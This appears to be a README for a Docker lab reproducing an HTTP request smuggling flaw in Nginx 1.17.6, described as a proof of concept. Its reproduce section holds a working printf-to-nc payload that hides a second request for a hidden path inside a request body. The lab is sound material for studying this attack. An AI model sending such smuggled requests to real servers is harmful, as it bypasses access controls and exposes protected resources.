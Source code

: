 #	Nginx - Http Smuggling

##	Composition

Nginx 1.17.6



##	Usage

Only for PoC.

###	build

```bash
docker-compose up -d
```

The nginx server will on the port 9015.



###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 302 Moved Temporarily
```

1 HTTP code 302 means all right! 

Enjoy!



###	reproduce

```bash
printf 'GET /a HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Content-Length: 56\r\n'\
'\r\n'\
'GET /_hidden/index.html HTTP/1.1\r\n'\
'Host: notlocalhost\r\n'\
'\r\n'\
|nc -w 1 127.0.0.1 9015
```



#	Reference

https://bertjwregeer.keybase.pub/2019-12-10%20-%20error_page%20request%20smuggling.pdf